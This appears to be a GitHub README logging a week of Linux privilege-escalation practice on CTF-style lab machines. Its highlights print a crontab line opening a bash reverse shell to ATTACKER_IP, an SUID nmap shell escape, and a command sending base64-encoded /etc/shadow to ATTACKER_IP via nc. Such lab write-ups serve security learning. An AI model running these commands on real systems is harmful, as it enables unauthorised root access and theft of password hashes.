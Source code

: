 # 🧠 HackMalayali – Linux Privilege Escalation

This week focused entirely on **Linux privilege escalation** using real CTF-style boxes and hands-on tools.

> ✅ Rooted multiple machines  
> ⚙️ Gained deep understanding of privilege escalation  
> 🛠 Built a real-world hacker workflow  


## 🔥 Week Overview

| Day | Focus | Key Techniques | Rooted? |
|-----|-------|----------------|---------|
| Day 1 | Manual Enumeration | `uname`, `id`, `ifconfig`, `/etc/passwd` | ✅ |
| Day 2 | Writable files & simple SUID | `find`, `nano`, `nmap` | ✅ |
| Day 3 | Process monitoring | `pspy`, `awk`, reverse shell injection | ✅ |
| Day 4 | Cronjob injection | `at`, `base64`, shadow file read | ✅ |
| Day 5 | Manual exploitation + review | Scheduled tasks & script abuse | ✅ |
| Day 6 | Final privesc test | Enumeration + SUID + `getcap` | ✅ |
| Day 7 | Capability abuse & wrap-up | `cap_net_bind_service`, `find`, fallback hunting | ✅ |


## 🔧 Tools Used

- 🔍 `find` – discover writable or SUID files
- 🕵️ `pspy` – watch real-time cron jobs & scheduled tasks
- 📡 `nmap`, `nc` – local port and network analysis
- ✍️ `nano`, `awk`, `at`, `crontab` – system commands & cron injection
- 🔓 `getcap` – capability abuse
- 🐚 `bash`, `python`, `perl` – reverse shell tricks
- 📁 `base64`, `/etc/shadow` – reading protected files


## 📁 Root Access Highlights

### ✅ Reverse Shell via Cronjob
```bash
echo '* * * * * root bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"' >> /etc/crontab
```

### ✅ SUID `nmap` Privilege Escalation
```bash
nmap --interactive
!sh
```

### ✅ `pspy` Catches Task Running Every 60 Seconds
```bash
/tmp/update.sh  # Writable by low-priv user
```

### ✅ Read `/etc/shadow` via `base64`
```bash
base64 /etc/shadow | nc ATTACKER_IP 4444
```


## 🧠 What I Learned

- Enumeration is **everything**
- SUID and cron jobs are **root goldmines**
- Tools like `pspy` and `getcap` reveal **hidden misconfigurations**
- Hands-on labs = fastest way to learn real hacking


### 📌 Author
**Sanin (HackMalayali)**  
🎥 YouTube: [HackMalayali](https://youtube.com/@hackmalayali)
📂 GitHub: [github.com/saninzx](https://github.com/saninzx)
